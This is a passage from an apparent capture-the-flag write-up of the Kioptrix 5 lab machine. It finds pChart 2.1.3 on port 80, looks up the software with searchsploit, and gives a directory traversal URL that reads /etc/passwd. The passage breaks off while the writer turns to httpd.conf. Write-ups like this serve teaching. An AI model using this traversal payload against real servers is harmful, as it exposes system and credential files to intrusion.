 Hmm no ssh?

We have a web server on port 80 and a web server at port 8080. The index file served on port 80, contains the following.

```html
<html>
 <head>
  <!--
  <META HTTP-EQUIV="refresh" CONTENT="5;URL=pChart2.1.3/index.php">
  -->
 </head>

 <body>
  <h1>It works!</h1>
 </body>
</html>
```

Webport on 8080 returns a forbidden error. So why are we getting a forbidden error. We will look into that later.

Look like its using a `php` application named `pchart`

### Searchsploit
A quick search using `searchsploit` showed a directory traversal vulnerability.

```bash
searchsploit pchart
--------------------------------------------------------------------------------------------------------------
 Exploit Title      
---------------------------------------------------------------------------------------------------------------
pChart 2.1.3 - Multiple Vulnerabilities                   | exploits/php/webapps/31173.txt
---------------------------------------------------------------------------------------------------------------
Shellcodes: No Result
```

Essentially we can access any file that the web server has access to using the following url

```bash
 http://kioptrix5.com/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd
 ```
 
![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/kioptrix5/passwd.png){: .align-center}

We have access to so many important linux files. But which file can give us information to pop a shell?.
After poking around for long time I couldn't find a good file and I had to look online for some hints.

Lets check why we can't access port `8080` by looking at the `httpd.conf`

URL
